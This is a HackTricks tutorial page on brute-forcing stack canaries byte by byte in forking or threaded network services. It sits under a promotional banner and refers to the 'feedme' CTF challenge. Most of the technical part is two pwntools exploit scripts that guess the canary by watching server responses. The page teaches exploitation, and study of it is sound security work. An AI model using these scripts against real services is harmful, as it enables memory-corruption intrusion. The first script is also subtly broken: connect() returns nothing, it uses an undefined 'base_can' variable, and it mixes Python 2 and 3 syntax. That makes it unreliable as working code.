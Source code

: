 # BF Forked & Threaded Stack Canaries

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**If you are facing a binary protected by a canary and PIE (Position Independent Executable) you probably need to find a way to bypass them.**

![](<../../../.gitbook/assets/image (862).png>)

{% hint style="info" %}
Note that **`checksec`** might not find that a binary is protected by a canary if this was statically compiled and it's not capable to identify the function.\
However, you can manually notice this if you find that a value is saved in the stack at the beginning of a function call and this value is checked before exiting.
{% endhint %}

## Brute force Canary

The best way to bypass a simple canary is if the binary is a program **forking child processes every time you establish a new connection** with it (network service), because every time you connect to it **the same canary will be used**.

Then, the best way to bypass the canary is just to **brute-force it char by char**, and you can figure out if the guessed canary byte was correct checking if the program has crashed or continues its regular flow. In this example the function **brute-forces an 8 Bytes canary (x64)** and distinguish between a correct guessed byte and a bad byte just **checking** if a **response** is sent back by the server (another way in **other situation** could be using a **try/except**):

### Example 1

This example is implemented for 64bits but could be easily implemented for 32 bits.

```python
from pwn import *

def connect():
    r = remote("localhost", 8788)

def get_bf(base):
    canary = ""
    guess = 0x0
    base += canary

    while len(canary) < 8:
        while guess != 0xff:
            r = connect()

            r.recvuntil("Username: ")
            r.send(base + chr(guess))

            if "SOME OUTPUT" in r.clean():
                print "Guessed correct byte:", format(guess, '02x')
                canary += chr(guess)
                base += chr(guess)
                guess = 0x0
                r.close()
                break
            else:
                guess += 1
                r.close()

    print "FOUND:\\x" + '\\x'.join("{:02x}".format(ord(c)) for c in canary)
    return base
    
canary_offset = 1176
base = "A" * canary_offset
print("Brute-Forcing canary")
base_canary = get_bf(base) #Get yunk data + canary
CANARY = u64(base_can[len(base_canary)-8:]) #Get the canary
```

### Example 2

This is implemented for 32 bits, but this could be easily changed to 64bits.\
Also note that for this example the **program expected first a byte to indicate the size of the input** and the payload.

```python
from pwn import *

# Here is the function to brute force the canary
def breakCanary():
	known_canary = b""
	test_canary = 0x0
	len_bytes_to_read = 0x21
	
	for j in range(0, 4):
		# Iterate up to 0xff times to brute force all posible values for byte
		for test_canary in range(0xff):
			print(f"\rTrying canary: {known_canary} {test_canary.to_bytes(1, 'little')}", end="")
			
			# Send the current input size
			target.send(len_bytes_to_read.to_bytes(1, "little"))

			# Send this iterations canary
			target.send(b"0"*0x20 + known_canary + test_canary.to_bytes(1, "little"))

			# Scan in the output, determine if we have a correct value
			output = target.recvuntil(b"exit.")
			if b"YUM" in output:
				# If we have a correct value, record the canary value, reset the canary value, and move on
				print(" - next byte is: " + hex(test_canary))
				known_canary = known_canary + test_canary.to_bytes(1, "little")
				len_bytes_to_read += 1
				break

	# Return the canary
	return known_canary

# Start the target process
target = process('./feedme')
#gdb.attach(target)

# Brute force the canary
canary = breakCanary()
log.info(f"The canary is: {canary}")
```

## Threads

Threads of the same process will also **share the same canary token**, therefore it'll be possible to **brute-forc**e a canary if the binary spawns a new thread every time an attack happens.&#x20;

## Other examples & references

* [https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html](https://guyinatuxedo.github.io/07-bof\_static/dcquals16\_feedme/index.html)
  * 64 bits, no PIE, nx, BF canary, write in some memory a ROP to call `execve` and jump there.
